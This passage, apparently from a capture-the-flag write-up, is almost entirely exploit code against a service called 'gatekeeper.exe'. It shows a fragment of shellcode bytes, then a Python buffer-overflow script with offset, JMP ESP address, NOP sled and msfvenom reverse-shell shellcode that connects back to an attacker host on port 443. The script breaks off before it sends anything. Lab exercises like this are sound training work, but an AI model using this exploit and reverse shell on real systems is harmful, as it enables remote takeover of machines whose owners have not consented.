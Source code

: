 ```
shellcode += b"\x9e\x13\x9c\xad\x5e\xc3\x5c\x1e\x37\x09\x53"
shellcode += b"\x41\x27\x32\xb9\xea\xc2\xc9\x2a\xd5\xbb\x66"
shellcode += b"\x27\xbd\xb9\x88\x39\x85\x37\x6e\x53\xe9\x11"
shellcode += b"\x39\xcc\x90\x3b\xb1\x6d\x5c\x96\xbc\xae\xd6"
shellcode += b"\x15\x41\x60\x1f\x53\x51\x15\xef\x2e\x0b\xb0"
shellcode += b"\xf0\x84\x23\x5e\x62\x43\xb3\x29\x9f\xdc\xe4"
shellcode += b"\x7e\x51\x15\x60\x93\xc8\x8f\x96\x6e\x8c\xe8"
shellcode += b"\x12\xb5\x6d\xf6\x9b\x38\xc9\xdc\x8b\x84\xd2"
shellcode += b"\x58\xff\x58\x85\x36\xa9\x1e\x7f\xf9\x03\xc9"
shellcode += b"\x2c\x53\xc3\x8c\x1e\x64\x95\x90\x4a\x12\x79"
shellcode += b"\x20\x23\x63\x86\x8d\xa3\x63\xff\xf3\x53\x8b"
shellcode += b"\x2a\xb0\x74\x6e\xfe\xcd\x1c\x37\x6b\x6c\x41"
shellcode += b"\xc8\x46\xb3\x7c\x4b\x62\x4c\x7b\x53\x07\x49"
shellcode += b"\xc7\xd3\xf4\x23\x58\xb6\xfa\x90\x59\x93"
```

**Copy and paste those shellcodes to our python script:**
```py
#!/usr/bin/env python3

import socket

ip = '192.168.183.144' # Your Windows VM IP
port = 31337 # The gatekeeper.exe listening port

# Bad characters = \x00, \x0a
# JMP ESP = 080414C3
offset = 146
payload = b'A' * offset + b'\xC3\x14\x04\x08'
nop = b'\x90' * 32

# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.183.141 LPORT=443 EXITFUNC=thread -f python -v shellcode -b '\x00\x0a'
shellcode =  b""
shellcode += b"\xba\x7d\x49\x17\x10\xdb\xd8\xd9\x74\x24\xf4"
shellcode += b"\x58\x29\xc9\xb1\x52\x31\x50\x12\x83\xc0\x04"
shellcode += b"\x03\x2d\x47\xf5\xe5\x31\xbf\x7b\x05\xc9\x40"
shellcode += b"\x1c\x8f\x2c\x71\x1c\xeb\x25\x22\xac\x7f\x6b"
shellcode += b"\xcf\x47\x2d\x9f\x44\x25\xfa\x90\xed\x80\xdc"
shellcode += b"\x9f\xee\xb9\x1d\xbe\x6c\xc0\x71\x60\x4c\x0b"
shellcode += b"\x84\x61\x89\x76\x65\x33\x42\xfc\xd8\xa3\xe7"
shellcode += b"\x48\xe1\x48\xbb\x5d\x61\xad\x0c\x5f\x40\x60"
shellcode += b"\x06\x06\x42\x83\xcb\x32\xcb\x9b\x08\x7e\x85"
shellcode += b"\x10\xfa\xf4\x14\xf0\x32\xf4\xbb\x3d\xfb\x07"
shellcode += b"\xc5\x7a\x3c\xf8\xb0\x72\x3e\x85\xc2\x41\x3c"
shellcode += b"\x51\x46\x51\xe6\x12\xf0\xbd\x16\xf6\x67\x36"
shellcode += b"\x14\xb3\xec\x10\x39\x42\x20\x2b\x45\xcf\xc7"
shellcode += b"\xfb\xcf\x8b\xe3\xdf\x94\x48\x8d\x46\x71\x3e"
shellcode += b"\xb2\x98\xda\x9f\x16\xd3\xf7\xf4\x2a\xbe\x9f"
shellcode += b"\x39\x07\x40\x60\x56\x10\x33\x52\xf9\x8a\xdb"
shellcode += b"\xde\x72\x15\x1c\x20\xa9\xe1\xb2\xdf\x52\x12"
shellcode += b"\x9b\x1b\x06\x42\xb3\x8a\x27\x09\x43\x32\xf2"
shellcode += b"\x9e\x13\x9c\xad\x5e\xc3\x5c\x1e\x37\x09\x53"
shellcode += b"\x41\x27\x32\xb9\xea\xc2\xc9\x2a\xd5\xbb\x66"
shellcode += b"\x27\xbd\xb9\x88\x39\x85\x37\x6e\x53\xe9\x11"
shellcode += b"\x39\xcc\x90\x3b\xb1\x6d\x5c\x96\xbc\xae\xd6"
shellcode += b"\x15\x41\x60\x1f\x53\x51\x15\xef\x2e\x0b\xb0"
shellcode += b"\xf0\x84\x23\x5e\x62\x43\xb3\x29\x9f\xdc\xe4"
shellcode += b"\x7e\x51\x15\x60\x93\xc8\x8f\x96\x6e\x8c\xe8"
shellcode += b"\x12\xb5\x6d\xf6\x9b\x38\xc9\xdc\x8b\x84\xd2"
shellcode += b"\x58\xff\x58\x85\x36\xa9\x1e\x7f\xf9\x03\xc9"
shellcode += b"\x2c\x53\xc3\x8c\x1e\x64\x95\x90\x4a\x12\x79"
shellcode += b"\x20\x23\x63\x86\x8d\xa3\x63\xff\xf3\x53\x8b"
shellcode += b"\x2a\xb0\x74\x6e\xfe\xcd\x1c\x37\x6b\x6c\x41"
```